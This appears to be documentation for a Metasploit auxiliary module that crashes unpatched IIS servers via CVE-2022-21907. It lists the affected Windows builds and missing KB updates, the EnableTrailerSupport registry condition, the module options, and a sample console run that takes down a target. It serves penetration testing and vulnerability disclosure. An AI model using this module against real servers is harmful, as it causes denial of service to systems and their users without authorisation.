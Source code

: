 ## Vulnerable Application

IIS web server without KB:
 - Windows 10 Version 1809 && Windows Server 2019 (include Core): KB5009557
 - Windows 10 (Versions 20H2, 21H1, 21H2) && Windows Server Version 20H2 (include Core): KB5009543
 - Windows 11: KB5009566
 - Windows Server 2022 (include Core): KB5009555

and with DWORD: `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\HTTP\Parameters` value **EnableTrailerSupport** enabled.

![Weak configuration](https://mauricelambert.github.io/vulnerability/images/CVE-2022-21907_weak_configuration.png "Weak configuration")

### Source

 - [Microsoft](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-21907)

## Options

### RHOST

 - **Required**
 - Type: **address**
 - *No default value*

Should be the address of the weak IIS server.

### RPORT

 - **Required**
 - Type: **integer**
 - Default value: **80**

Should be the port to open the connection with the weak IIS Server.

## Scenarios

```text
msf6 > use exploit/windows/iis/rb_dos_iis_2022_21907 
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) > exploit
[*] Running module against 10.10.10.10

[+] Target is down ! Congratulations !
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/rb_dos_iis_2022_21907) >
```

## Reference

 - [Microsoft](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-21907)
 - [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2022-21907)
